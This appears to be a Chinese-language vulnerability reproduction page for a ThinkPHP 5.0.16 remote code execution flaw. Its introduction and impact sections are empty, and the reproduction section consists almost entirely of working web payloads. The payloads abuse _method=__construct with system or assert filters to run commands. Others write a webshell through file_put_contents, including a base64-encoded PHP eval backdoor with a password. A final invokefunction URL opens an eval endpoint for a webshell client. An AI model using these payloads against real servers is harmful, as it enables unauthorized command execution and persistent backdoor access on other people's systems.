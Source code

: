 ```yaml
---
title: Thinkphp 5.0.16
id: zhfly3152
---
```


# Thinkphp 5.0.16

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

> https://www.0-sec.org/?s=index/index

```
post `s=whoami&_method=__construct&method=POST&filter[]=system

aaaa=whoami&_method=__construct&method=GET&filter[]=system

_method=__construct&method=GET&filter[]=system&get[]=whoami

c=system&f=calc&_method=filter` 
```

> 写shell

```
POST `s=file_put_contents(‘zerosec.php’,’<?php phpinfo();’)&_method=__construct&method=POST&filter[]=assert` 
```

> 有captcha路由时无需debug=true

> https://www.0-sec.org/?s=captcha/calc

```
POST `_method=__construct&filter[]=system&method=GET` 
```

> 写shell

```
post

s=file_put_contents(’/绝对路径/test.php’,base64_decode(‘PD9waHAgJHBhc3M9JF9QT1NUWydhYWFhJ107ZXZhbCgkcGFzcyk7Pz4’))&_method=__construct&filter=assert `密码aaaa` 
```

> 直接菜刀连

```
http://wwww.0-sec.org/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][0]=eval($_POST[1]) 
```